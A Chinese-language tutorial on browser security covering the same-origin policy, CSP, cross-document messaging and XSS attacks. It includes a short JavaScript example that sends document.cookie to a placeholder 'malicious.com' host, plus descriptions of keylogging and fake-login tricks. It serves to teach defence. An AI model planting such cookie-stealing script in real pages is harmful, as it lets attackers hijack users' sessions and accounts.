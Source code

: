 ## 同源策略

页面中最基础、最核心的安全策略：**同源策略（Same-origin policy）**

### 什么是同源策略

**如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源**

浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在 DOM、Web 数据和网络这三个层面。

* 第一个，DOM 层面。同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。

* 第二个，数据层面。同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。

* 第三个，网络层面。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。


### 安全和便利性的权衡

1. 页面中可以嵌入第三方资源

![img](https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png?wh=834*338)

```js

function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。**CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码**。通过这些手段就可以大大减少 XSS 攻击。

2. 跨域资源共享和跨文档消息机制

在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。


## 跨站脚本攻击（XSS）

### 什么是 XSS 攻击

XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

* 窃取 Cookie 信息。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。

* 监听用户行为。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。

* 可以通过修改 DOM 伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
